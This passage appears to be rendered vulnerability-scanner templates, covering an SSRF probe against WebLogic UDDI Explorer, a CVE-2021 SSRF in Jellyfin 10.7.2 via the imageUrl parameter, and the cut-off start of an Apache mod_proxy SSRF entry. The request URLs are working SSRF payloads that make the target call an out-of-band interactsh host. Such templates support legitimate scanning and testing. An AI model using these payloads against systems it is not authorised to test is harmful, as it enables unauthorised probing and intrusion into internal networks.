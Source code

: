 - {{BaseURL}}/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://{{interactsh-url}}

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Jellyfin 10.7.2 - SSRF

## Description

- Jellyfin is a free software media system. Versions 10.7.2 and below are vulnerable to unauthenticated Server-Side Request Forgery (SSRF) attacks via the imageUrl parameter.

- severity - medium
- tags - cve,cve2021,ssrf,jellyfin,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/Images/Remote?imageUrl=http://interact.sh/
- {{BaseURL}}/Items/RemoteSearch/Image?ImageUrl=http://interact.sh/&ProviderName=TheMovieDB

### Matchers

**Type - word**

- part - body
- words
  1. \<h1> Interactsh Server \</h1>

---

# Apache \<= 2.4.48 - Mod_Proxy SSRF

## Description
